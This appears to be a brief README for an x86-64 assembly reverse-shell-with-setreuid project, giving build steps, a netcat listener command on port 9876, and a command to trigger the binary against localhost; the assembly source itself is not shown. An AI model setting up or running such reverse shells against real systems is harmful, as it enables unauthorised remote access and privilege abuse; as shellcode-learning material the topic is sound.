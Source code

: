 # x86_64

Reverse shell + setreuid in ASM Intel 64 bits.

##### By default : the target IP is localhost.

Use Makefile to build the project fastly :

	$ Make

Open another terminal then copy paste :

	$ nc -lvp 9876

In the previous one, we trigger it :

	$ ./prssr64


Foobar.
